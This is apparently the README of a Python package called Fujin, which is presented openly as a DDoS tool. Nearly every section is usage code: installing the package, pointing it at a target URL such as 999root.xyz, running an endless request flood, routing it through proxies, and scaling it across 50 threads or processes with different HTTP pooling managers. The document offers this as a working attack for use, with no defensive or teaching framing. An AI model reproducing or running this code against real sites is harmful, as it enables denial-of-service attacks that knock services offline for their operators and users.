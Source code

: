 # Documentation
Happy learnings

## Install
```
pip install Fujin
```

## Initialise Object
```
from Fujin import Fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
```

## Run a simple Asynchronous DDoS
This will run an Infinite Loop Synchronous function that should infinitely send traffic to your selected website.
```
from Fujin import fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
ddos.begin_async_get_attack()
```

## Use proxies
```
from Fujin import fujin

url = "https://999root.xyz/"

proxies = {
  "http": "http://[proxy]"
}

ddos = Fujin(url=url, proxies=proxies)
```

## Use threading or multiprocessing to speed up our DDoS
```
# Daemon = run in the background / threads = how many threads would you like to run
ddos.thread_async_attack(threads=50, daemon=True)
ddos.thread_sync_attack(threads=50, daemon=True)
```

```
ddos.multiproc_sync_attack(processes=50, daemon=True)
ddos.multiproc_async_attack(processes=50, daemon=True)
```

## Choose a pooling manager
Fujin gives you a choice of 3 pooling managers
- Python Requests ( requests.session() )
- AIOHTTTP Async Based Session Manager ( aiohttp.ClientSession() )
- URLLIB3 Pooling Manager ( urllib3.PoolingManager() )

Make sure you choose a pooling manager otherwise the program will prompt you to choose one. I do this because some of the pooling managers are freakishly powerful

#### Python requests
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="requests")
```

#### AIOHTTP
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="aiohttp")
```

#### URLLIB3
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="urllib3")
```

### SOCKET
```
# I would advise putting http:// at the start as we are directly sending HTTP Requests to the port with this one
ddos = fujin(url="http://fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="socket")
```

# Example Script
```
from Fujin import fujin

url = "yourwebsite.com"

headers = {
  "User-Agent": "some user agent",
  "Accept-Encoding": "gzip"
}

ddos = fujin(url=url, header=headers)
ddos.thread_async_attack(threads=50, daemon=True, pooling_manager="aiohttp")
```

## What's faster sync or async
asnyc mate
